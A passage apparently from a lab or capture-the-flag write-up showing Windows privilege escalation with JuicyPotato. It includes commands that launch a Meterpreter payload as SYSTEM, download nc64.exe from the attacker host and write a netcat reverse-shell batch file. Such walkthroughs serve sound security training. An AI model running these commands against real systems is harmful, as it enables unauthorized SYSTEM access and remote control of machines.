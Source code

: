 It’s trying with the BITs server, but that’s failing.

[This page](https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2012_Datacenter) has a list of CLSIDs for Windows 2012, as well as the user they associate with. I’ll work my way down the page, and when I get to the seventh row (the first for `winmgmt`), it works:

```

PS C:\windows\system32\spool\drivers\color> .\jp.exe -t * -p C:\windows\system32\spool\drivers\color\met.exe -l 9001 -c "{8BC3F05E-D86B-11D0-A075-00C04FB68820}"
Testing {8BC3F05E-D86B-11D0-A075-00C04FB68820} 9001
......
[+] authresult 0
{8BC3F05E-D86B-11D0-A075-00C04FB68820};NT AUTHORITY\SYSTEM
[+] CreateProcessWithTokenW OK

```

At `msfconsole`:

```

[*] Sending stage (175174 bytes) to 10.10.10.72
[*] Meterpreter session 4 opened (10.10.14.6:443 -> 10.10.10.72:49181 )

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```

To do this without Metasploit, I can upload `nc64.exe`:

```

PS C:\windows\system32\spool\drivers\color> wget 10.10.14.6/nc64.exe -outfile nc64.exe

```

I’ll write a simple `.bat` file:

```

PS C:\windows\system32\spool\drivers\color> cmd /c "echo C:\windows\system32\spool\drivers\color\nc64.exe -e cmd 10.10.14.6 443 > rev.bat"
PS C:\windows\system32\spool\drivers\color> type rev.bat
C:\windows\system32\spool\drivers\color\nc64.exe -e cmd 10.10.14.6 443 

```

And run JuicyPotato:

```

PS C:\windows\system32\spool\drivers\color> .\jp.exe -t * -p "C:\windows\system32\spool\drivers\color\rev.bat" -l 9001 -c "{8BC3F05E-D86B-11D0-A075-00C04FB68820}"
Testing {8BC3F05E-D86B-11D0-A075-00C04FB68820} 9001
......
[+] authresult 0
{8BC3F05E-D86B-11D0-A075-00C04FB68820};NT AUTHORITY\SYSTEM
[+] CreateProcessWithTokenW OK

```
